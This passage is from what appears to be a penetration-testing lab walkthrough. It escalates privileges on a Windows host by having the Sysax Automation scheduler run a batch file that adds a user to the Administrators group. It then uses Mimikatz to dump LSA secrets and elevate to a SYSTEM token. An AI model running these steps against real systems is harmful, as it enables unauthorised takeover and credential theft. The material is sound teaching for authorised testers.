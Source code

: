 First, create a file called `pwn.bat` in `C:\Users\ilfserveradm\Documents` containing the line `net localgroup administrators ilfserveradm /add` to add our user to the local admins group (sometime we'd need to clean up and note down in our report appendices). Next, we can perform the following steps:

* Open `C:\Program Files (x86)\SysaxAutomation\sysaxschedscp.exe`
* Select `Setup Scheduled/Triggered Tasks`
* Add task (Triggered)
* Update folder to monitor to be `C:\Users\ilfserveradm\Documents`
* Check `Run task if a file is added to the monitor folder or subfolder(s)`
* Choose `Run any other Program` and choose `C:\Users\ilfserveradm\Documents\pwn.bat`
* Uncheck `Login as the following user to run task`
* Click `Finish` and then `Save`

Finally, to trigger the task, create a new .txt file in the `C:\Users\ilfserveradm\Documents` directory. We can check and see that the `ilfserveradm` user was added to the `Administrators` group.

```cmd-session
C:\Users\ilfserveradm> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
ilfserveradm
INLANEFREIGHT\Domain Admins
The command completed successfully.
```

***

## Post-Exploitation/Pillaging

Next, we'll perform some post-exploitation on the MS01 host. We do see a couple of interesting files in the root of the c:\ drive named `budget_data.xlsx` and `Inlanefreight.kdbx` that would be worth looking into and potentially reporting to the client if they are not in their intended location. Next, we can use Mimikatz, elevate to an `NT AUTHORITY\SYSTEM` token and dump LSA secrets.

```cmd-session
c:\Users\ilfserveradm\Documents> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc
ERROR kuhl_m_lsadump_secretsOrCache ; kull_m_registry_RegOpenKeyEx (SECURITY) (0x00000005)

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM
```